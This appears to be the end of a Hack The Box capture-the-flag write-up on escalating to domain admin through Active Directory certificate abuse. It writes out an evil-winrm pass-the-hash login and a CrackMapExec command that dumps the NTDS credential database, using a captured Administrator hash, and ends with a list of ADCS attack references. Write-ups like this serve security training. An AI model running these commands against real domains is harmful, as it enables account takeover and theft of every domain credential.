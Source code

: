 ![Image](https://i.imgur.com/Ru3q64l.png)


We use ntpdate to synchronize the clock with AD.

![Image](https://i.imgur.com/t03KPJa.png)

With the correct time, we can authenticate with the certificate and obtain the hash of the Administrator user.

![Image](https://i.imgur.com/oFjT2On.png)


With the Administrator hash we log in with evil-winrm

![Image](https://i.imgur.com/1WeSfRj.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
evil-winrm -i 10.10.11.207 -u administrator -H 807726fcf9f188adc26eeafd7dc16bb7
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We can get the other hashes with CrackMapExec:

![Image](https://i.imgur.com/YQaQWVr.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
./cme smb 10.10.11.207 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7 --ntds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged?view=net-7.0
https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
https://www.prosec-networks.com/en/blog/adcs-privescaas/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin
https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf
https://systemweakness.com/exploiting-cve-2022-26923-by-abusing-active-directory-certificate-services-adcs-a511023e5366
https://github.com/ly4k/Certipy
https://exploit-notes.hdks.org/exploit/windows/active-directory/ad-cs-pentesting/
https://github.com/Orange-Cyberdefense/GOAD/blob/4cc6cbc1bdc86a236649d6c1e2c0dbf856bedeb6/ansible/roles/adcs_templates/files/ESC1.json
https://hackinglethani.com/ad-certificate-templates/
https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831740(v=ws.11)
https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/
https://notes.offsec-journey.com/privilege-escalation/domain-privilege-escalation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
